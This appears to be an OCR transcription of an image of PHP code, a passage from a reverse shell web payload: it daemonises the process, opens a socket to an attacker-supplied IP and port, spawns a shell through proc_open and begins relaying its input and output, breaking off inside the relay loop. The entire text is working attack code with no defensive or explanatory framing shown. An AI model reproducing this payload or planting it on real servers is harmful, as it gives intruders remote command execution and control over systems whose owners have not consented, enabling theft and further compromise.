 ```php
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
```